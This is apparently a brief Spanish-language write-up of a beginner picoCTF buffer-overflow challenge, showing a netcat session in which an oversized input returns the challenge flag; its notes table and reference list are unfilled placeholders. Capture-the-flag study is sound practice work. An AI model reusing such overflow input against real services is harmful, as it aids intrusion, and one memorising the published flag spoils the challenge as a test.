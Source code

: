 ## Descripción
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using: nc saturn.picoctf.net 61481


## Solución
Proporcionar un número con valor mayor al soportado.

```bash
alberto@Nova:~$ nc saturn.picoctf.net 61481
Input: 123404987398713247892431789324
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
```

## Notas Adicionales
|comando|descripcion|
|---|---|
|xx|xx|

## Referencias
- []()
